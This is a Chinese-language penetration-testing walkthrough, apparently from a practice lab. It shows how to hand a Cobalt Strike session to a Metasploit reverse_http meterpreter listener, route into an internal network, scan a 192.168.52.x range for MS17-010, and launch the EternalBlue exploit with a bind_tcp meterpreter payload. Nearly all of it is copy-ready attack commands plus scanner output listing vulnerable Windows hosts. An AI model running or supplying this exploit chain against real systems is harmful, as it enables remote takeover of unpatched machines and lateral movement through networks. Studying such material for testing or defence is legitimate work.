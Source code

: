 #### MS17-010

###### CS到MSF

[![ppsC7cR.png](https://s1.ax1x.com/2023/03/26/ppsC7cR.png)](https://imgse.com/i/ppsC7cR)

先设置监听器

[![ppsC5h4.png](https://s1.ax1x.com/2023/03/26/ppsC5h4.png)](https://imgse.com/i/ppsC5h4)

在msf中设置好payload监听：

~~~
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 20000
run
~~~

然后cs中执行spawn 123

[![ppsCW7T.png](https://s1.ax1x.com/2023/03/26/ppsCW7T.png)](https://imgse.com/i/ppsCW7T)

成功收到会话

##### 检测MS17-010是否存在

~~~
//查看路由
run autoroute -p
//设置路由
run post/multi/manage/autoroute
//检测ms17-010
use auxiliary/scanner/smb/smb_ms17_010
set rhosts 192.168.52.110-143
set threads 5
run
~~~

结果：

~~~
[+] 192.168.52.110:445    - Host is likely VULNERABLE to MS17-010! - Windows 10 Enterprise 2016 LTSB 14393 x64 (64-bit)
[+] 192.168.52.138:445    - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (64-bit)
[+] 192.168.52.141:445    - Host is likely VULNERABLE to MS17-010! - Windows Server 2003 3790 x86 (32-bit)
[+] 192.168.52.143:445    - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
~~~

[![p9CDPl6.png](https://s1.ax1x.com/2023/04/17/p9CDPl6.png)](https://imgse.com/i/p9CDPl6)

~~~
//设置ms17-010的payload进行攻击[不出网]
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 192.168.52.138
set payload windows/x64/meterpreter/bind_tcp	windows/x64/powershell_bind_tcp
//这里的target是1的地方就是你sessions -i 里面的
set target 1
run
~~~
